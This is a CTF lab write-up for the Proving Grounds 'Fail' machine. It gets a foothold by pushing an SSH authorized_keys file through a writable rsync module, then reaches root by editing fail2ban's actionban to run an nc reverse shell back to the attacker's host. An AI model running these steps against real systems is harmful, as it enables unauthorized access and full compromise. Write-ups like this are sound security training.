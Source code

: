 ```yaml
---
title: "Proving grounds Practice: Fail"
layout: post
date: 2023-12-30 02:00
categories: writeup
---
```


Proving grounds Practice - Fail CTF writeup.

## Nmap

```text
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
873/tcp open  rsync   (protocol version 31)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 873/tcp open  rsync (protocol version 31)

List `rsync` modules using nmap.

```sh
naveenj@hackerspace:|01:49|~/proving_grounds/Fail$ nmap -sV --script "rsync-list-modules" -p 873 192.168.195.126
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-20 01:50 EDT
Nmap scan report for 192.168.195.126
Host is up (0.28s latency).

PORT    STATE SERVICE VERSION
873/tcp open  rsync   (protocol version 31)
| rsync-list-modules: 
|_  fox            	fox home
```

**Rsync Enumeration**

```sh
naveenj@hackerspace:|01:52|~/proving_grounds/Fail$ rsync -av --list-only rsync://192.168.195.126/
fox            	fox home

naveenj@hackerspace:|01:53|~/proving_grounds/Fail$ rsync -av --list-only rsync://192.168.195.126/fox
receiving incremental file list
drwxr-xr-x          4,096 2021/01/21 09:21:59 .
lrwxrwxrwx              9 2020/12/03 15:22:42 .bash_history -> /dev/null
-rw-r--r--            220 2019/04/18 00:12:36 .bash_logout
-rw-r--r--          3,526 2019/04/18 00:12:36 .bashrc
-rw-r--r--            807 2019/04/18 00:12:36 .profile
```

Upload .ssh directory with our SSH public key as authorized_keys

```sh
naveenj@hackerspace:|02:12|~/proving_grounds/Fail$ rsync -av .ssh/ rsync://fox@192.168.195.126/fox/.ssh
sending incremental file list
created directory /.ssh
./
authorized_keys

sent 27,331 bytes  received 161 bytes  7,854.86 bytes/sec
total size is 26,861  speedup is 0.98
```

**.ssh Folder**

```sh
naveenj@hackerspace:|02:14|~/proving_grounds/Fail$ ll .ssh
total 48K
4.0K drwxr-xr-x 3 naveenj naveenj 4.0K Oct 20 02:12 ../
4.0K -rw-r--r-- 1 naveenj naveenj  573 Oct 20 01:56 authortized_keys
```

SSH to user fox to obtain initial foothold.

## Privilege Escalation

Check user and group id

```sh
uid=1000(fox) gid=1001(fox) groups=1001(fox),1000(fail2ban)
```

## Fail2ban Privilege Escalation

[https://youssef-ichioui.medium.com/abusing-fail2ban-misconfiguration-to-escalate-privileges-on-linux-826ad0cdafb7](https://youssef-ichioui.medium.com/abusing-fail2ban-misconfiguration-to-escalate-privileges-on-linux-826ad0cdafb7)

The user can write permission to action.d folder and upon recon the fail2ban is enabled for the SSH service.

```conf
# Provide customizations in a jail.local file or a jail.d/customisation.local.
# For example to change the default bantime for all jails and to enable the
# ssh-iptables jail the following (uncommented) would appear in the .local file.
# See man 5 jail.conf for details.
#
# [DEFAULT]
# bantime = 1h
#
# [sshd]
# enabled = true
```

The default configuration says the host will be banned for a minute after 2 invalid attempts.

```conf
# "bantime" is the number of seconds that a host is banned.
bantime  = 1m

# A host is banned if it has generated "maxretry" during the last "findtime"
# seconds.
findtime  = 10m

# "maxretry" is the number of failures before a host get banned.
maxretry = 2
```

Upon changing the config in the iptables-multiport.conf to a reverse shell.

```conf
#actionban = <iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>
actionban = /usr/bin/nc 192.168.45.247 80 -e /bin/bash
```

Run the netcat listener and try invalid ssh login attemps to trigger shell.

![img](/assets/images/CTF/Proving_Grounds/Fail/root.png)

**Root obtained**

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).